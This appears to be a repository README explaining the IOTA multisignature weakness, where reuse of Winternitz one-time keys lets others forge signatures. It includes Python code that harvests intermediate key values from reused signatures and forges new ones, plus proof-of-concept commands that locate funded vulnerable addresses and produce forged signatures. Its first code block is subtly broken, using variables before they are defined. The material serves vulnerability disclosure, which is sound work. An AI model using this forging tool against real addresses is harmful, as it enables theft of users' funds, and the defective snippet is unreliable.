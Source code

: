 # IOTAs Multisig Problem
IOTA is a post quantum secure crypto currency that gained some value in the past.
It is based on the Winternitz One Time Signature Scheme.
In contrast to RSA, DSA and ECDSA it is not based on computation in a group and cannot be broken by discrete log or factorization.
Instead it is based on hash functions and secure as long as the hash function is preimage resistant.

As usual in cryptocurrencies, the public key is used for reception of funds.
If the user wants to send some funds to a different address, she has to sign a transaction (bundle in case of IOTA)  using the private key that belongs to that public key.
As the Winternitz signature scheme is a one time signature scheme there are some problems in practice.
The main implication is that if a transaction is made once, using a secret key, this key is burned and should NOT be used anymore.
Therefore the reception address has to be changed if the user issues a transaction for that public key.
Any further transaction to that public key would cause multiple signatures, what could cause security issues.
It would be plausible if a user does not always notifies everyone, if she makes a transaction and a new public key has to be used.
Therefore multiple signatures could occur for a given address.

# Winternitz
To explain how Winternitz Sigatures works, lets first see how the signature for a single byte works (lets assume we have usual 8-bit byte for simplicity).
A random variable $x_i$ is chosen and stored as the secret key which in case of IOTA is derived from the secret seed.
Let $h$ be the hash function and $pk_i$ the public key:

$$ pk_i = h^{256}(x_i) = h(h(h( ... h(x_i)))) $$

To sign a byte $b_i$ we have to publish:

$$ sig_i = h^{256-b_i}(x_i) $$

And the sigature can be verified by testing if

$$ pk_i = h^{b_i}(sig_i) $$

This scheme can adopted for multi byte signatures by choosing a different $x_i$ for every byte $b_i$.
Of course this basic method is not secure at all, as an attacker can sign all bytes $b'_i > b_i$.
The way IOTA handles this problem is to normalize the bytestring $B = (b_0, b_1, ... b_n)$ by changing the first bytes such that:

$$ \sum_i b_i = 128 $$

As IOTA uses trytes and not bytes this is slightly different in that case.
If an attacker wants to sign a different bytestring, she has to choose a different bytestring $B' \not= B$.
As the total sum is constant there will be at least two bytes such that $b'_i < b_i$ and $b'_j > b_j$.
To sign this bytestring $B'$ using a different signature, the attacker has to compute a preimage for b'_i$ what is not possible in practice.
Even though this assumption only holds if the public key is only used once.

IOTA uses trits (-1,0,1) and trytes (group of 3 trits, 9,A-Z) to represent hash values.
Depending on the security level of the wallet a signature a signature consists of 1-3 fragments.
Each signature fragment itself consists of 27 Winternitz signatures.
Let $ pk_{i,j} $ be the $i$-th Winternitz public key of fragment $j$.
The IOTA public key (address) for a security level of 2 is computed as:

$$ addr = h(h(pk_{0,0} || pk_{1,0} || ... || pk_{26,0}) || h(pk_{0,1} || pk_{1,1} || ... || pk_{26,1})) $$


# Analyzing the Tangle
There exists a repository [alon-e/iotaWayBack](https://github.com/alon-e/iotaWayBack.git) that can be used to download and analyze the tangle.
All transactions can then be stored in a SQL database, but the whole process takes several hours to complete.
The most relevant fields are:

    -signature_message_fragment: Signature fragment of a bundle. Usually split over two entries (depending on security level).
    -address: The address that issues the transaction.
    -bundle_hash: The hash of the signed bundle.

This database can then be used to search for addresses that signed multiple bundles.

# Forging Signatures
Luckily IOTA ships with an open source python implementation.
The iota.crypto.signing.validate_signature_fragments(...) can be used to check signatures in the tangle.
The pseudo code looks as follows (taken from iota.lib.py/iota/crypto/signing.py):

```
def get_sk_fragments(fragments, hash, public_key):
  normalized_hash = normalize(hash)

  for (i, fragment) in enumerate(fragments): # for all signature fragments
    normalized_chunk = normalized_hash[i % len(normalized_hash)]

    outer = []
    sk_fragments[i*27 + j][normalized_chunk[j]] = buffer
    for (j, hash_trytes) in enumerate(fragment.iter_chunks(Hash.LEN)): # for each tryte in fragment
      buffer = hash_trytes.as_trits()

      for i in range(13 + normalized_chunk[j]): # winternitz iteration
        buffer = h(buffer)
        sk_fragments[i*27 + j][normalized_chunk[j]-i-1] = buffer

      outer.append(buffer)

    checksum.append( h(outer))

  actual_public_key = h(checksum)

  return actual_public_key == public_key.as_trits()
```

Note that there is a small modification, the update of sk_fragments, which keeps track of the intermediate values of the Winternitz values.
Using the known values of two or more signatures, own signatures can be forged.
If a particular intermediate value is not known, an IndexError is thrown and the signature generation fails.

```
def sign(forged_hash, sk_fragments, num_frags = 2):
    normalized_hash = normalize(forged_hash)

    fragments = []
    for i in range(num_frags):
      fragment = ""
      for j in range(len(normalized_hash[i])):
          x = normalized_hash[i][j]
          x = sk_fragments[str(i*27 + j)][str(x)]
          fragment += str(iota.TryteString.from_trits(x))

      fragments += [iota.TryteString(fragment)]

    return fragments
```

In the IOTA protocol the bundle hash is a hash value of a bundle, an actual money movement and can not be chosen arbitrarily.
Even though random values can be signed if only two signatures are known.
This can be achieved by slightly mutating a known signature.

```
import random
def mutate(x, n=26):
    x = x.as_trits()
    for _ in range(n):
        i = random.randrange(len(x))
        x[i] = x[i] * random.randrange(-1,2)

    return TryteString.from_trits(x)
```

# Estimating Bit Security

# PoC
The repository  [bolek42/iotaWayBack](https://github.com/bolek42/iotaWayBack.git) implements a basic PoC for the problems above.
After using traverse.py to download the tangle parse_and_store.py can be used to export the transactions to a sqlite database.
The whole process can take several hours to complete.

```
python find_multisig.py sqlalchemy_IRI.db
```

can be used to find IOTA addresses that issued multiple signatures and still contain IOTA.
The key fragments will be written in a json file in keys/[address].json.
For each found address the balance and estimated bit security is printed.


The following call can be used to create valid signatures for a mutated bundle hash

```
python sigforge.py address bundle_hash
```

To create signatures of random variables to show the feasibility of signature forging the bundle hash can be omitted.
Note that this implementation is single threaded and not tuned for performance.

```
python sigforge.py address
```
